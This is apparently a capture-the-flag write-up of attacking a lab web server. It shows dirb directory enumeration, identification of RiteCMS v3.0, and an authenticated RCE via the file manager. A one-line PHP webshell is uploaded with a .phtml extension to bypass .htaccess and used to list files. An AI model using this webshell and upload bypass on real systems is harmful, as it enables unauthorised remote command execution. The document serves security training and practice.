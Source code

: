 ### Webserver port 80

http://159.65.224.214

We have an html page and also a 404 page 

Let's try some directory bruteforcing 

```bash
┌──(kali㉿kali)-[~]
└─$ dirb http://159.65.224.214/

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Sun Apr 17 02:11:05 2022
URL_BASE: http://159.65.224.214/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://159.65.224.214/ ----
==> DIRECTORY: http://159.65.224.214/content/
+ http://159.65.224.214/index.html (CODE:200|SIZE:1251)
+ http://159.65.224.214/server-status (CODE:403|SIZE:279)
```
I found a directory called /content

http://159.65.224.214/content/ we can a the end of page the version `RiteCMS version v3.0`

Searching for exploits, i found an Authenticated RCE exploit https://www.exploit-db.com/exploits/50616 

- Login to the admin portal `http://159.65.224.214/content/admin.php`
- We need to create a php webshell `<?php system($_GET['cmd']); ?>`
- Upload it in the file manager `http://159.65.224.214/content/admin.php?mode=filemanager&directory=media` 
- Try differnent extentions to bypass .htaccess `phtml worked for me` 

Now let's use our a php shell http://159.65.224.214/content/media/a.phtml?cmd=ls%20-la

```
drwxrwxr-x 3 root www-data 4096 Apr 17 02:34 .

drwxrwxr-x 7 root www-data 4096 Apr 6 01:07 ..

-rwxrwxr-x 1 root www-data 6148 Mar 8 2021 .DS_Store

-rw-r--r-- 1 root root 37 Apr 15 07:33 .htaccess

-rw-r--r-- 1 www-data www-data 771 Apr 17 01:47 404.php

-rw-r--r-- 1 www-data www-data 195469 Apr 17 02:32 Screenshot_2021-09-15_11_58_04.png

-rw-r--r-- 1 www-data www-data 195505 Apr 17 02:31 Screenshot_2021-09-15_11_58_05.png

-rw-r--r-- 1 www-data www-data 30 Apr 17 02:34 a.phtml

-rwxrwxr-x 1 root www-data 85630 Nov 24 2020 benjamin_child.jpg

-rwxrwxr-x 1 root www-data 62000 Nov 24 2020 contact.jpg

-rw-r--r-- 1 www-data www-data 46 Apr 17 02:30 cve-poc.PHtml
```